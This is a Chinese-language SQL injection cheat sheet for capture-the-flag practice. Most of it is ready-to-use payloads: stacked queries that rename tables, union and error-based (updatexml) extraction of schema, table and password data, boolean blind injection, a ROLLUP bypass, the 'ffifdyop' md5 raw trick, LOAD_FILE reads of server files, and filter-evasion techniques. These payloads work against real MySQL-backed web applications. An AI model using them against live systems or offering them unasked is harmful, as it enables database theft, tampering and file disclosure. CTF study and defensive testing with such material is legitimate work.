 ## SQLi

#### 字符型

测试步骤：

payload为`'#`不会报错

#### 整数型

payload为`1'`会报错

### 注入姿势：

#### 堆叠注入

类似Linux下的命令注入 ，要目标开启多语句执行才行

例：

```sql
1';alter table `words` rename to `word`;alter table `1919810931114514` rename to `words`;alter table words change flag id varchar(100);
```



#### HANDLER[TABLE]OPEN语句

MySQL 专用的语句，并没有包含到SQL标准中。

HANDLER [表名] OPEN;语句打开一个表，使其可以使用后续HANDLER [表名] READ；该表对象未被其他会话共享，并且在会话调用HANDLER [表名] CLOSE;或会话终止之前不会关闭

```sql
1';HANDLER FlagHere OPEN;HANDLER FlagHere READ FIRST;HANDLER FlagHere  close;#
```



#### union 注入

要注意观察回显的位置，选择在哪里注入sql很重要

```sql
1'union selcet 1,2,3%23
1'order by 3%23
1'union select 1,2,database()%23
#查库
1'union select 1,2,group_concat(schema_name)from(information_schema.schemata)%23
#查表
1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23
#查字段
1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name="geekuser"%23#表名有单引号
```

#### 报错注入

```sql
password=1'OR(updatexml(1,concat('~',database(),'~'),1))%23
```

```sql
1'or(updatexml(1,concat('~''~',(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),'~'),1))%23
```

```sql
#报错注入对回显有字数限制，所以采用左右显示以补全flag
admin'or(updatexml(1,concat('~',(select(group_concat((right(password,25))))from(H4rDsq1)),'~'),1))%23
```

#### 布尔盲注

```sql
if(ascii(substr(database(),1,1))=101,1,2)
0||ascii(substr(database()/**/from/**/1/**/for/**/1))
```

#### 查询时产生新的行列进行匹配绕过（通常后台分为两次查询）

**1.group by 子句：rollup**，在group by产生结果时，会对结果进行汇总，默认情况下会生成一个NULL值作为统计名

```sql
SELECT 
    warehouse, SUM(quantity)
FROM
    inventory
GROUP BY ROLLUP(warehouse);
```

产生：

```tex
warehouse              SUM(quantity)
San Fransisco          560
San Jose               650
Null                   1210
```

[CTFshow-web10](https://blog.csdn.net/weixin_46439278/article/details/109555667)

payload:

对查询出来的用户名进行汇总

```sql
admin'or/**/1=1/**/group/**/by/**/password/**/with/**/ROLLUP#
```



#### Mysql中的MD5函数

 md5(string,raw)

raw：可规定16进制(false)还是二进制输出(true)。有一道题：[CTFshow-web9](https://blog.csdn.net/March97/article/details/81222922)

```sql
select * from 'admin' where password=md5($pass,true)
```

```
content: ffifdyop
hex: 276f722736c95d99e921722cf9ed621c
raw: 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
string: 'or'6]!r,b
```

如果raw为true，则返回的这个原始二进制不是普通的二进制（0，1），而是 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c 这种。 在mysql里面，在用作布尔型判断时，以1开头的字符串会被当做整型数。要注意的是这种情况是必须要有单引号括起来的，比如password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1  ，也就相当于password=‘xxx’ or true，所以返回值就是true。当然在我后来测试中发现，不只是1开头，只要是数字开头都是可以的。

#### Mysql中的loadfile函数

 在MySQL中，LOAD_FILE()函数读取一个文件并将其内容作为字符串返回。

所以如果我已知存在GET型注入和目标文件，可以尝试使用这个函数去读取flag

```sql
?no=-1/**/union/**/%20select/**/1,load_file('/var/www/html/flag.php')%20,3,4#
```



### 过滤绕过：

#### 空格

```sql
1.url编码：%0a,%0b,%0c,%0d,%09,%a0,/**/
2.使用括号包裹
```

#### 单引号转义

[NCTF2019SQLi](https://blog.csdn.net/wuyaowangchuan/article/details/114362816)

在一些情况下，单引号被过滤了，那么这时候我们可以传入`\`字符，进行尝试

eg:

```sql 
#有如下sql语句
select * from table where name='$_GET[name]' and passwd='$_GET[passwd]'
```

那么我们传入`name=\&passwd=||/**/passwd/**/regexp/**/"^a"%00`，上面的语句会变为

```sql
select * from users where username='\' and passwd='||/**/passwd/**/regexp/**/"^a";
```

#### 等号=

使用like绕过

#### 使用``对关键字绕过

